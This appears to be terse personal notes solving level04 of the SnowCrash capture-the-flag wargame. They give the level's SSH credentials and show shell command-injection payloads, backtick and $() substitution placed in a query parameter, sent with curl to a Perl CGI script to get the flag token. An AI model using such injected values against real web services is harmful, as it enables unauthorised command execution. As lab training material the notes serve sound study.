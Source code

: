 ssh level04@10.12.100.98 -p 4242
pwd: qi0maab88jeaj46qoumi7maus

```
level04@SnowCrash:~$ file level04.pl
    a /usr/bin/perl script, ASCII text executable
```

In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests.

an interface specification that enables web servers to execute an external program

```
level04@SnowCrash:~$ /usr/bin/perl level04.pl
Content-type: text/html


```

curl: To change the request method, we can use the -X flag.
 sent any parameters to the server: ?param=

http://10.12.100.98:4747/?x=`getflag`


curl localhost:4747?x=\`getflag\`
curl localhost:4747?x='`getflag`'
curl localhost:4747?x='$(getflag)'

token : ne2searoevaevoem4ov4ar8ap
